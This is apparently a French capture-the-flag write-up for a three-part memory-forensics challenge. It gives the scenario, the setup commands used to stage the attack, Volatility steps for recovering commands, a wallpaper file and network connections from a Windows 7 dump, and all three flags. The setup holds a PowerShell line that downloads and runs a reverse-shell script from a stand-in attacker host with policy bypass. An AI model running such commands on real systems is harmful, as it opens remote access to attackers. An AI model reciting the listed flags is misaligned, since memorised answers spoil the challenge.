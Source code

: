 # Piraterie
## Challenge
### Épisode 1
Vous venez d'être embauché en tant qu'analyse sécurité dans votre nouvelle entreprise. Encore ému par cette nouvelle, on vous affecte à votre première mission.   
Votre client du jour s'est fait piraté. Heureusement, il a eut la présence d'esprit de ne pas éteindre la machine compromise et vous fournit un dump mémoire.  
Essayez de trouver ce qu'a pu faire le pirate.

### Épisode 2
Il semble que le pirate ait réussi à récupérer des informations confidentielles qui étaient visibles sur le bureau.  
Validez cette hypothèse et retrouvez cette information.

### Épisode 3
Sachant ce qui a été dérobé, il faut maintenant retrouver le malfrat.  
Retracez son parcours et retrouvez l'IP ainsi que le port de connexion qu'il a utilisé pendant son attaque.  
  
Le flag est de la forme PHACK{<INFO>} avec <INFO> le résultat de \<IP>:\<PORT> encodé en base 64.


## Préparation
```bash
ping my-none-ethical-hacking-server.thief.org
cd "C:\Users\Public\Documents\hidden"
IEX (New-Object Net.WebClient).DownloadString(\"http://my-none-ethical-hacking-server.thief.org/reverse-shell.ps1\")
powershell -ep Bypass -file ".\reverse-shell.ps1"

whoami
pwd
dir
cd ..
cd Desktop
dir
echo "Got U fucker !!!!" > .Pwned
echo "PHACK{STEP_1-IC4nD0Wh4TuD0}" >> .Pwned
rm .Pwned
systeminfo
echo "PHackCTF Rocks!"
```

+ Ouvrir plein de fenêtres Firefox & IE
+ Ouvrir l'image de fond d'écran

## Fichier
Lien : https://bit.ly/2O3ZvaJ

## Résolution
### Retrouver le profile de la machine
```python
python /opt/volatility/vol.py -f dump.raw imageinfo
```

### Récupérer la liste des commandes
```python
python /opt/volatility/vol.py -f dump.raw --profile=Win7SP1x86_23418 cmdscan
```

### Récupérer le fichier de fond d'écran
```python
python /opt/volatility/vol.py -f dump.raw --profile=Win7SP1x86_23418 filescan | grep TranscodedWallpaper.jpg```
python /opt/volatility/vol.py -f dump.raw --profile=Win7SP1x86_23418 dumpfiles -Q 0x000000007e50a038 -D /tmp/vol
```

### Récupérer les infos de connexion
```python
python /opt/volatility/vol.py -f dump.raw --profile=Win7SP1x86_23418 netscan
```

## Flags
### Épisode 1
```
PHACK{STEP_1-IC4nD0Wh4TuD0}
```

### Épisode 2
```
PHACK{STEP_2-IC4nCwH4TUC}
```

### Épisode 3
```
PHACK{MTg1LjEzLjM3Ljk5OjEzMzc=}
```
